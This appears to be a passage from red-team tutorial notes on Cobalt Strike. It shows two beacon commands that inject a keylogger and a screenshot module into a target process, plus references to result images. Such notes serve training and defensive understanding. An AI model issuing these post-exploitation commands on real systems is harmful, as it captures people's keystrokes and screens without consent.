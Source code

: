 {% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-31-30.png>)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-33-51.png>)
